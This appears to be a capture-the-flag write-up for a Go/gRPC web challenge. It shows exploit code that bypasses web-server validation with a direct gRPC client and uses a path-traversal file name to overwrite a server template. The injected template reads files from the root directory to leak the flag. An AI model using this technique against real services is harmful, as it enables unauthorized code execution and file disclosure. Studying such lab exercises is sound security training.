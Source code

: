 # testimonial

As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.

## Solution

```sh
docker run -d -p 1337:1337 -p 50045:50045 testimonial
```

https://youtu.be/EGItzKCxTdQ?si=Ju6odrgwEQsWz1We&t=568

go app, grpc

all validation is happening on web server, so you can actually make a grpc client to interact directly with the grpc server!

`.air.toml` is used to live reload service - https://github.com/cosmtrek/air (live reload for Go apps)

everytime a testimonial is submitted, the `index.templ` is going to read all templates from disk.

grpc client code was copied out and validation was removed, exploit template was created

```go
// exploit.templ
// this is just index.templ with overrided GetTestimonials function

//...

// override GetTestimonials() to read root directory

func GetTestimonials() []string {
	fsys := os.DirFS("/")
	files, err := fs.ReadDir(fsys, ".")
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))
	}
	return res
}
```

```go
// snippet of copied out grpc client

// ...

func main() {
	c, _ := GetClient()
	exploit, _ := ioutil.ReadFile("./exploit.templ")
	c.SendTestimonial("../../view/home/index.templ", string(exploit))
	// c.SendTestimonial("../../main.go", string(exploit))
}
```

bypasses web server and hits grpc handler directly to leak flag
